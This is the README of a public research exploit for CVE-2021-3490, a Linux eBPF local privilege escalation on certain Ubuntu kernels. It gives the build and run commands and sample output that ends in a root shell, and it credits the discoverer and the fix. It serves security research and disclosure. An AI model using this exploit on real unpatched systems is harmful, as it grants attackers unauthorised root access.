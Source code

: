 # Linux_LPE_eBPF_CVE-2021-3490
## from [@chompie1337](https://github.com/chompie1337/Linux_LPE_eBPF_CVE-2021-3490)
----
LPE exploit for CVE-2021-3490. Tested on Ubuntu 20.10 (Groovy Gorilla) kernels 5.8.0-25.26 through 5.8.0-52.58.
and Ubuntu 21.04 (Hirsute Hippo) 5.11.0-16.17.
The vulnerability was discovered by Manfred Paul [@_manfp](https://twitter.com/_manfp) and fixed in this [commit](https://git.kernel.org/pub/scm/linux/kernel/git/bpf/bpf.git/commit/?id=049c4e13714ecbca567b4d5f6d563f05d431c80e).
    
author: [@chompie1337](https://twitter.com/chompie1337)

For educational/research purposes only. Use at your own risk.

## Usage:

To build for Ubuntu 20.10 (Groovy Gorilla):
```
make groovy
```
To build for Ubuntu 21.04 (Hirsute Hippo):
```
make hirsute
```
To run:
```
bin/exploit.bin
[+] eBPF enabled, maps created!
[+] addr of oob BPF array map: ffffa008c1202110
[+] addr of array_map_ops: ffffffff956572a0
[+] kernel read successful!
[!] searching for init_pid_ns in kstrtab ...
[+] addr of init_pid_ns in kstrtab: ffffffff95b03a4a
[!] searching for init_pid_ns in ksymtab...
[+] addr of init_pid_ns ffffffff96062d00
[!] searching for creds for pid: 770
[+] addr of cred structure: ffffa0086758dec0
[!] preparing to overwrite creds...
[+] success! enjoy r00t :)
#
```

Note: You **must** cleanly exit the root shell by typing `exit` to perform cleanup and avoid a kernel panic.

Checkout the writeup [Kernel Pwning with eBPF: a Love Story](https://www.graplsecurity.com/post/kernel-pwning-with-ebpf-a-love-story).

This research was sponsered by [Grapl](https://www.graplsecurity.com/).
